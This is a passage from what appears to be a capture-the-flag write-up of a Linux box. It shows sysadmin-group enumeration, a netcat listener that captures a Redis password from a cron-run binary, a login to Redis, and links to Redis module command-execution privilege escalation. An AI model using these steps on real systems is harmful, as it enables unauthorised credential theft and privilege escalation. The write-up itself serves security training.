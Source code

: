 
Now as dan we have access to the sysadmin group
```bash
id
uid=1001(dan_smith) gid=1002(dan_smith) groups=1002(dan_smith),1001(developer),1003(sysadmin)
```

And the only thing it gives access to is this 
```bash
find / -group sysadmin 2> /dev/null
/usr/local/bin/redis_connector_dev
```

That's a C binary, probaly what the other cronjob we observed earlier is triggering through `/root/c.sh`
```
file redis_connector_dev
redis_connector_dev: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, Go BuildID=sdGIDsCGb51jonJ_67fq/_JkvEmzwH9g6f0vQYeDG/iH1iXHhyzaDZJ056wX9s/7UVi3T2i2LVCU8nXlHgr, not stripped
```

Lets exfiltrate it, and move it to an amd64 machine. Now we could  do some fancy binary reversing, but the filename literally says `redis_connector`, so it's a pretty safe assumption to make, that it will attempt to connect to redis. Lets try just kicking off the binary while listening on the redis port.
```bash
nc -lvnp 6379
listening on [any] 6379 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 59976
*2
$4
auth
$16
F2WHqJUz2WEz=Gqq
```

And sure enough that's the password
```bash
redis-cli
127.0.0.1:6379> info
NOAUTH Authentication required.
127.0.0.1:6379> auth F2WHqJUz2WEz=Gqq
OK
```

There's apparently no key value pairs in this redis instance, but we might still be able to use it as a Privilege escalation vector 
```bash
127.0.0.1:6379> KEYS *
(empty array)
```

[https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis](https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis)  
[https://github.com/n0b0dyCN/RedisModules-ExecuteCommand](https://github.com/n0b0dyCN/RedisModules-ExecuteCommand)  
